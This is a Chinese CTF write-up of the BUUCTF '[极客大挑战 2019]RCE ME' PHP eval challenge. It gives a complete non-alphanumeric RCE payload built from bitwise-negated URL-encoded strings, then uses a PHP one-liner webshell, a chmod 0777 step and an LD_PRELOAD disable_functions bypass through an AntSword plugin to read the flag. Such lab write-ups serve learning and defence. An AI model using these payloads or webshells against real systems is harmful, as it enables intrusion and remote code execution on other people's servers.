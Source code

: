 ```yaml
---
title: 极客大挑战 2019 RCE ME
date: 2020-12-05 20:42:00
categories: ['DROPS']
tags: ['Web','BUUCTF_Web','RCE','disable_function绕过']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120232544.png
---
```


# [极客大挑战 2019]RCE ME

源码：

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析一波，GET请求获得`code`，想要通过的话需要绕过两个检测：

1. payload长度小于40
2. 不能包含`a-z、A-Z、0-9`

和之前做过DMCTF里的一个不能用数字和字母构造payload一样，当时参考的博客是phith0n师傅的:[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，这次摸到了相关文章：[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)。

使用`url编码`+`~`取反构造不可见字符串，然后加上php7版本以后支持了使用：`($a)()`这样的方法动态执行函数，所以我们可以构造payload：`assert(eval($_POST[‘a’]))`

先构造`assert`：

```
echo urlencode(~'assert');

//结果：%9E%8C%8C%9A%8D%8B
```

再构造`eval($_POST['a'])`：

```
echo urlencode(~'eval($_POST[\'a\'])');

//结果：%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6
```

完整payload：

```
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6);
```

网站获得请求以后会进行url解码，由于是不可见字符可以绕过长度和正则表达式，之后执行代码时，前面的`~`取反再获得真正的函数名。

使用蚁剑连接，进后台在根目录找到了flag、readflag。打开flag内容为空，又打开readflag文件是一堆乱码，但是看到了文件头是`ELF`是linux的可执行文件。那么很有可能就是执行readflag才能获得flag，但是在终端执行时出现了一些问题：无论输入什么，终端都只会返回`ret=127`：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201403.png)

搜索了一波，原来是是**disable_function**搞的鬼，这个表可以在phpinfo()中查看：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201821.png)

因为`system`、`exec`、`shell_exec`等命令执行的函数都被禁止了，目前我理解的webshell就是通过这些函数才能在终端执行命令的，所以终端基本是个废的，所以就是寻找绕过**disable_function**的方法，网上有很多其他方法，其中一个方法：

**利用环境变量LD_PRELOAD来绕过**

> php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
> 
> LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

正好蚁剑的插件中就有一个名为：[as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)的插件，可以选择在插件市场安装或是手动安装（github有步骤）。安装以后右键shell选择加载插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234337.png)

插件的工作原理是自动上传几个绕过的文件，然后再用蚁剑连接上传的文件即可实现绕过，但是一开始的`/var/www/html`目录是没有上传权限的，我右键以后发现能修改权限，改成0777：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204190508.png)

> 在这里我还遇到了问题，使用原来的shell执行插件功能以后，终端还是没有权限，但是我尝试了自己又上传了一个一句话木马，用这个新的一句话木马执行插件才成功，具体原因我也不清楚，如果有师傅知道原因求告知。

上传一句话木马233.php：

```
<?php
@eval($_POST['b']);
```

再用一句话木马的shell执行插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204231514.png)

进入shell，目录下面多了一个名为**\.antproxy.php**的文件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234445.png)

再使用蚁剑连接**\.antproxy.php**，密码是运行插件的那个shell的密码，这时候就可以开开心心的去根目录下执行readflag获得flag辣。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204233847.png)

flag{a216900e-2427-48f7-9323-f65d0a3abdbf}
